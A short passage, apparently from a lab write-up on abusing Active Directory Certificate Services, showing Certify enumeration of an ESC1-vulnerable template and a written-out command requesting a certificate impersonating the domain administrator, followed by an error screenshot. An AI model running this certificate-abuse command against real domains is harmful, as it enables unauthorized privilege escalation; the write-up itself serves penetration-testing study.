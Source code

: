 ![Certify Working Enumeration](assets/img/posts/20250325/Certify-Working-Enumeration.png)

Certify confirms that template `ESC1VulnerableTemplate` is vulnerable to ESC1.

##### Step 2: Requesting a Certificate <a id="step-2-requesting-a-certificate"></a>

Next, I attempted to request a certificate for the `administrator@domain-b.local` account:
```cmd
.\Certify.exe request /ca:DC02.domain-b.local\domain-b.DC02-CA /template:ESC1VulnerableTemplate /altname:administrator
```
![Certify Error An Enrollement Policy Server](assets/img/posts/20250325/Certify-Error-An-Enrollment-Policy-Server.png)
